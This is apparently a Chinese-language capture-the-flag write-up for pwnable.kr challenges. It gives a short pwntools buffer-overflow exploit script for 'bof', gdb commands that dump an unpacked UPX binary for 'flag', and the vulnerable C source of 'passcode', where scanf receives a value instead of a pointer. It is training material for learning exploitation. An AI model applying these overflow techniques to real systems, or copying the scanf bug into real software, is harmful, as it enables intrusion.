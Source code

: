 最最基础的漏洞利用题目，计算好偏移覆盖至栈帧中保存的参数即可。exp脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

payload = ''
payload += 'A' * 0x34
payload += p32(0xcafebabe)
r = remote('pwnable.kr', 9000)
#r = process('./bof')
#r.recvuntil('me : ')
r.sendline(payload)
r.interactive()
```

## flag

一道逆向工程的题目，有经验的同学通过`strings`看出是`upx`加壳的程序。比较原生态的做法是，通过`strace`看出有`write`的系统调用，对其[下断点](https://wizardforcel.gitbooks.io/100-gdb-tips/catch-syscall.html)后dump出原始的bin文件，再通过`strings`寻找可能的flag字符串。编写gdb command file如下：

```
!strace ./flag
file flag
catch syscall write
run
dump binary memory dumpfile 0x0000000000400000 0x00000000004c2000
!strings -n 16 dumpfile | head -n 3
quit
```

## passcode

这是一道编程错误导致的漏洞利用题目，初看时感觉没问题，输入两个passcode即可得到flag。但实际运行时会出现段错误，调试后可知程序在使用`scanf`时传递的不是变量指针，遂产生非法地址写：

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```
